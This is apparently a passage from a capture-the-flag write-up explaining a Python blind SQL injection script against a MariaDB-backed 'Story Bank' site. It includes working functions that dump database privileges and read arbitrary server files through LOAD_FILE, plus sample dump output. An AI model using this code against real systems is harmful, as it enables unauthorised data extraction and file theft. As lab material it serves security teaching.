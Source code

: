 The function uses a kind of Binary Search algorithm, which has `O(log n)` complexity, so it will be pretty much faster than trying all characters in ASCII order (just compare the previous `7` requests using Binary Search to `119 - 32 + 1 = 88` requests needed to get a `w` if we used simple brute force).

Apart from dumping the database, we have a function `get_privileges` to see what privileges we have on the database:

```python
def get_privileges():
    user = dump_content('current_user()')
    print('User:', user)
    table_name = 'information_schema.user_privileges'
    privileges = {}

    column_names = ['grantee', 'privilege_type',
                    'table_catalog', 'is_grantable']
    n_rows = dump_content(sql(COUNT, table_name))

    for column_name in column_names:
        if privileges.get(column_name) is None:
            privileges[column_name] = []

        for k in range(int(n_rows)):
            row_value = dump_content(
                sql(column_name, table_name, limit=k))
            privileges[column_name].append(row_value)

    print(json.dumps(privileges, indent=2))
```

It basically uses previous functions to extract some contents of table `information_schema.user_privileges` knowing the column names beforehand.

And the most important function to compromise the machine is `get_file`:

```python
def get_file(filename):
    file = dump_content(f"to_base64(load_file('{filename}'))")

    try:
        print(base64.b64decode(file).decode())
    except binascii.Error:
        print(file)
```

What it does is load a file using `LOAD_FILE` and encode it in Base64 using `TO_BASE64` to prevent problems of having line breaks in the file. Then, it dumps the contents of the encoded file and decodes it.

The contents of the database can be obtained in a few minutes:

```console
$ python3 sqli.py
Version: 10.3.29-MariaDB-0ubuntu0.20.04.1
{
  "writer": {
    "site": {
      "id": [
        "1"
      ],
      "title": [
        "Story Bank"
      ],
      "description": [
        "This is a site where I publish my own and others stories"
      ],
      "logo": [
```